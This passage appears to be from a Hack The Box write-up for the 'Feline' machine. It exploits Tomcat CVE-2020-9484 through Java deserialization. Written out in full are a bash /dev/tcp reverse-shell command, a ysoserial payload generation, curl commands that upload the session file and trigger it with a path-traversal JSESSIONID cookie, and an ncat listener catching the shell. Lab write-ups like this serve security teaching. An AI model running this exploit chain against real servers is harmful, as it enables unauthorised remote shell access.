 we know that the uploaded files stored at /opt/samples/uploads.

### CVE-2020-9484

further analyse and after some searching i came up with tomcat   
[**CVE-2020-9484**](https://github.com/masahiro331/CVE-2020-9484)  vulnerability.so we will be using  [**java deserialization**](https://medium.com/swlh/hacking-java-deserialization-7625c8450334
)  to make our payload.

lets create a script for reverse shell.

```shell
echo "bash -i >& /dev/tcp/10.10.14.68/9002 0>&1"
```

we need to convert this script in base64 , that's how java deserialization attack works.

```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $echo "bash -i >& /dev/tcp/10.10.14.68/9002 0>&1" | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OC85MDAyIDA+JjEK
```
now let use ysoserial to convert our payload to session file.


```shell
┌─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $java -jar ysoserial-master-6eca5bc740-1.jar CommonsCollections4 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42OC85MDAyIDA+JjEK}|{base64,-d}|{bash,-i}" > oxy.session

```
lets upload our payload.
```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $curl -sS 'http://10.10.10.205:8080/uplaod.jsp' -F 'image=@oxy.session' > /dev/null
```

execute and listen.
```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $curl -sS 'http://10.10.10.205:8080/upload.jsp' -H "Cookie: JSESSIONID=../../../../../opt/samples/uploads/oxy" > /dev/null
```
this will give us a shell.

```shell
┌─[✗]─[oxy@oxy]─[~/Practice/hackthebox/machine/feline]
└──╼ $ncat -vl 10.10.14.68 9002
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on 10.10.14.68:9002
Ncat: Connection from 10.10.10.205.
Ncat: Connection from 10.10.10.205:60846.
bash: cannot set terminal process group (901): Inappropriate ioctl for device
bash: no job control in this shell
tomcat@VirusBucket:/opt/tomcat$ whoami
tomcat
```
and we got our user.
